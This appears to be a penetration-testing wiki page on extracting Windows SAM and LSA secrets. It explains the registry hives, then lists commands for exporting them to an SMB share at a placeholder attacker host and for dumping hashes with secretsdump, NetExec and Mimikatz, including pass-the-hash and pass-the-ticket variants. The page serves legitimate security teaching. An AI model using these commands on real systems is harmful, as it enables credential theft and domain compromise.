 ```yaml
---
description: 'MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005'
authors: 'ShutdownRepo, mpgn, p0dalirius, sckdev'
category: ad
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive | Details | Format or credential material |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes |
| SECURITY | stores domain cached credentials (referred to as LSA secrets) | Plaintext passwords, LM or NT hashes, Kerberos keys (DES, AES), Domain Cached Credentials (DCC1 and DCC2), Security Questions (`L$`*`SQSA`*`<SID>`),  |
| SYSTEM | contains enough info to decrypt SAM secrets and LSA secrets | N/A |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md) or [silver tickets](../../kerberos/forged-tickets/) |
| LM and NT hashes | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash) | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Kerberos keys (DES, AES) | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

::: tabs

=== UNIX-like

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../builtins/security-groups) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```


=== Live Windows

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

> [!TIP]
> Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.


=== Down Windows

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

:::


### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

::: tabs

=== secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```


=== netexec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```


=== Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```

:::

> [!TIP]
> Secretsdump (Impacket) and NetExec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.

## Resources

[http://moyix.blogspot.com/2008/02/syskey-and-sam.html](http://moyix.blogspot.com/2008/02/syskey-and-sam.html)

[http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html](http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html)

[https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

[https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/](https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/)

